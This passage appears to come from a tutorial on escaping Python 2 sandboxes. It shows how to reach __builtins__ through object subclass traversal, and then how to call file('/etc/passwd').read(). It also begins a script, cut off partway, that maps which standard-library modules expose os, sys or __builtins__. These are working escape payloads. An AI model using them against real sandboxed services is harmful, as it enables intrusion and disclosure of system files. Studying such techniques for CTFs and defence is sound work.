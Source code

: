 Look for `__builtins__` in `keys` to view the reference, and it will also return many `dict` types.

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
```

<div align=center><img src="./images/13.png"></div>

Finally, look for available functions in `keys`, such as the `file` function.

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```

<div align=center><img src="./images/14.png"></div>

## Script traversal other escape methods
### Python2

```python
# coding=UTF-8

find_modules = {'filecmp': ['os', '__builtins__'], 'heapq': ['__builtins__'], 'code': ['sys', '__builtins__'],
                'hotshot': ['__builtins__'], 'distutils': ['sys', '__builtins__'], 'functools': ['__builtins__'],
                'random': ['__builtins__'], 'tty': ['sys', '__builtins__'], 'subprocess': ['os', 'sys', '__builtins__'],
                'sysconfig': ['os', 'sys', '__builtins__'], 'whichdb': ['os', 'sys', '__builtins__'],
                'runpy': ['sys', '__builtins__'], 'pty': ['os', 'sys', '__builtins__'],
                'plat-atheos': ['os', 'sys', '__builtins__'], 'xml': ['__builtins__'], 'sgmllib': ['__builtins__'],
                'importlib': ['sys', '__builtins__'], 'UserList': ['__builtins__'], 'tempfile': ['__builtins__'],
                'mimify': ['sys', '__builtins__'], 'pprint': ['__builtins__'],
                'platform': ['os', 'platform', 'sys', '__builtins__'], 'collections': ['__builtins__'],
                'cProfile': ['__builtins__'], 'smtplib': ['__builtins__'], 'compiler': ['__builtins__', 'compile'],
                'string': ['__builtins__'], 'SocketServer': ['os', 'sys', '__builtins__'],
                'plat-darwin': ['os', 'sys', '__builtins__'], 'zipfile': ['os', 'sys', '__builtins__'],
                'repr': ['__builtins__'], 'wave': ['sys', '__builtins__', 'open'], 'curses': ['__builtins__'],
                'antigravity': ['__builtins__'], 'plat-irix6': ['os', 'sys', '__builtins__'],
                'plat-freebsd6': ['os', 'sys', '__builtins__'], 'plat-freebsd7': ['os', 'sys', '__builtins__'],
                'plat-freebs
d4': ['os', 'sys', '__builtins__'], 'plat-freebsd5': ['os', 'sys', '__builtins__'],
                'plat-freebsd8': ['os', 'sys', '__builtins__'], 'aifc': ['__builtins__', 'open'],
                'sndhdr': ['__builtins__'], 'cookielib': ['__builtins__'], 'ConfigParser': ['__builtins__'],
                'httplib': ['os', '__builtins__'], '_MozillaCookieJar': ['sys', '__builtins__'],
                'bisect': ['__builtins__'], 'decimal': ['__builtins__'], 'cmd': ['__builtins__'],
                'binhex': ['os', 'sys', '__builtins__'], 'sunau': ['__builtins__', 'open'],
                'pydoc': ['os', 'sys', '__builtins__'], 'plat-riscos': ['os', 'sys', '__builtins__'],
                'token': ['__builtins__'], 'Bastion': ['__builtins__'], 'msilib': ['os', 'sys', '__builtins__'],
                'shlex': ['os', 'sys', '__builtins__'], 'quopri': ['__builtins__'],
                'multiprocessing': ['os', 'sys', '__builtins__'], 'dummy_threading': ['__builtins__'],
                'dircache': ['os', '__builtins__'], 'asynccore': ['os', 'sys', '__builtins__'],
```